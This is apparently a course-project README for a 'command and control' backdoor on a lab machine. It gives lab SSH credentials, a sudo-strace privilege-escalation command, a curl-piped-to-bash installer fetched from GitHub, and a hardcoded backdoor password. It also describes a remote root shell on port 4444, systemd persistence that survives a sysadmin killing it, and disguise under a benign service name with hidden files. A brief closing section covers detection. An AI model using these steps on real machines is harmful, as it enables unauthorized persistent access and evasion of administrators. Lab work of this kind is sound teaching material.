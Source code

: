 # Command and Control

A simple backdoor that provides the user persistent password-protected access to a previously compromised machine.

## Installing and running the server script on the week4 machine

Logging into the week4 machine:
ssh into the week4 machine using this command:

```bash
ssh user@10.0.2.5
```

The password for the machine is: hill

To escalate privileges use this command:

```bash
sudo strace -o /dev/null /bin/bash
```
 
then type ‘cd’ in order to change into the root directory

Run the following command which will install the backdoor to the machine. Only 2 files will be installed: the script to run the server from GitHub directly, and the systemd service to ensure persistence (explained more in a further section).

```bash
curl -s https://raw.githubusercontent.com/athulnair02/command-and-control/main/install_backdoor | bash
```

## Installing and running the client script on your local machine

In any spot on the attacking machine add the file:

client.py from the GitHub

Once you’ve done this, you can run the client script at any time using:

```bash
python client.py
```	
or

```bash	
python3 client.py
```

## How the backdoor works

How our backdoor addresses the 5 requirements:

### Explanation of how our backdoor provides remote shell access:
The backdoor is essentially a shell in which the target machine reveals port 4444/tcp in the firewall and listens for a connection from the network. The python script on the target side is waiting for a connection, and once accepted and authorized through a password, it receives commands from the attacking machine through TCP and executes them through a subprocess. The output from the command is sent back to the attacking machine through the established connection.

### Persistence:
The backdoor maintains persistence using a systemd service that ensures it is always running on the machine. It is the service that initially starts the script to open the backdoor when it is first installed and every time the script ends (either successful, on error, etc.) it will be restarted with a different PID. This way, if there is any unforeseen error in the code, it will not prevent the backdoor from being closed. In addition, if a sysadmin kills the program when finding it suspicious (while looking at top or task manager), it will start again, opening the backdoor once again. Another persistence action taken was having a timeout for the initial backdoor connection. If the backdoor does not have a connection in two minutes, it throws an error and ends the program so that it restarts and ensures the firewall was not closed by the sysadmin. If the firewall is closed, then no connection can be made to the backdoor. This timeout can be changed since the code is directly run off of Github, meaning any push to the main branch will update the backdoor when it is run through the curl command piped into python command.

### Configuration to get commands from: 
The only configuration needed is to determine the IP address of the target machine (through nmap or any other means) and change REMOTE_HOST in client.py to that address. It is default set to '10.0.2.5'.
Authentication:
We created a password ( c0d3m@nk3y ) and hashed it using hash(password) in python. This hash is then stored on the server/target machine. We then have client.py ask the user to input a password as the first message to the target and it is then sent to the server. There, the server hashes it and checks it against the known hash, which once confirmed, allows the user remote root shell access.

### Hiding from detection: 
There are only 2 files added to the machine: one that is the backdoor, and the other to ensure it keeps running. Both files are using a less suspecting name (auto-update-checker) that creates the illusion of a routine, ordinary task for the sysadmin. The actual script that is run is in the root’s home directory as a hidden file (it can easily be placed elsewhere more secretive). There is no cronjob running so a sysadmin cannot find the script running there (where other common repeating programs may be). In addition, the service is buried deep with other services so it will be difficult for a sysadmin to search through all services to determine which one is malicious.

### How our backdoor can be detected:
If the sysadmin checks the hidden files in the root home directory, they can find a presence of a file they did not put. If they look past the unsuspecting name and read the script that is running, they will find the backdoor. 
If the sysadmin looks at what ports are open on the firewall using firewall-cmd –list-ports, they will see that 4444/tcp is open and will know something odd is in place keeping the port open. If they use further investigation, they may find the program using the port if they install lsof and execute lsof -i:4444. 



